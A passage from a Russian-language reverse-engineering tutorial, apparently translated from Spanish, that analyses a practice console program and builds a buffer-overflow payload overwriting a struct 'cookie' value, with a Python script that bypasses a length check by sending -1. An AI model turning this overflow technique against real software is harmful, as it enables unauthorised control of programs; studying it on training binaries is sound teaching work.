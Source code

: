 ![\[&#x200B;IMG\]](http://s018.radikal.ru/i507/1712/c4/1286e6a5b661.gif)  
  
В последнюю функцию также передается указатель на структуру MyStruct. Давайте переименуем и исправим все.  
  
![\[&#x200B;IMG\]](http://s014.radikal.ru/i327/1712/6e/0c213408fac1.gif)  
  
Там помещается адрес структуры в регистр EAX. Затем используется еще одно поле этой структуры по смещению 0x18.  
  
![\[&#x200B;IMG\]](http://s019.radikal.ru/i604/1712/fd/6b1f005e17a9.gif)  
  
Мы сравниваем это поле со значением 0x45934215. Давайте переименуем его в cookie. Само поле нигде раньше не изменялось, однако воспользовавшись переполнением буфера мы с легкостью сможем его изменить.  
  
![\[&#x200B;IMG\]](http://s018.radikal.ru/i514/1712/14/2d804a64a393.gif)  
  
Если результат сравнения положительный - нам выводится сообщение о том, что мы сделали все успешно. Само поле cookie нигде раньше не изменялось, однако воспользовавшись переполнением буфера мы с легкостью сможем его изменить. Давайте взглянем на стек функции main.  
  
![\[&#x200B;IMG\]](http://s018.radikal.ru/i521/1712/04/f3f4f5e116d7.gif)  
  
Конечно, мы не забыли, что все поля структуры MyStruct находятся внутри объекта pepe. Давайте посмотрим на их размер.  
  
![\[&#x200B;IMG\]](http://s019.radikal.ru/i621/1712/54/a0cf8cf5d39d.gif)  
  
Нам необходимо заполнить Buf 16-ю символами, затем заполнить два двойных слова \(8 байт - 8 символов\) и только после этого мы доберемся до cookie. Пэйлоад будет выглядеть так:  
Код \(Text\):

1. 2. fruta= "A" \* 16 + numero + c + cookie
3. 
Этот скрипт похож на предыдущий, который мы писали ранее:  
Код \(Text\):

1. 2. from subprocess import \*
3. import struct
4. p = Popen\(\[r'C:\Users\ricna\Documents\Visual Studio
5. 2015\Projects\ConsoleApplication4\Release\ConsoleApplication4.exe',
6. 'f'\], stdout=PIPE, stdin=PIPE, stderr=STDOUT\)
7. print "ATACHEA EL DEBUGGER Y APRETA ENTER\n"
8. raw\_input\(\)
9. primera="-1\n"
10. p.stdin.write\(primera\)
11. numero=struct.pack\("&lt;L",0x1c\)
12. c=struct.pack\("&lt;L",0x90909090\)
13. cookie=struct.pack\("&lt;L",0x45934215\)
14. fruta= "A" \* 16 + numero + c + cookie + "\n"
15. p.stdin.write\(fruta\)
16. testresult = p.communicate\(\)\[0\]
17. print\(testresult\)
18. 
Мы видим, здесь передается -1 для прохождения проверки на максимальную длину буфера. Затем передается сама строка, который состоит из 16 байт под буфер + 4 байта для максимальной длины буфера + 4 байта для temp-переменной + 4 байта под куки. Все значения, кроме кук, могут быть рандомными.  
  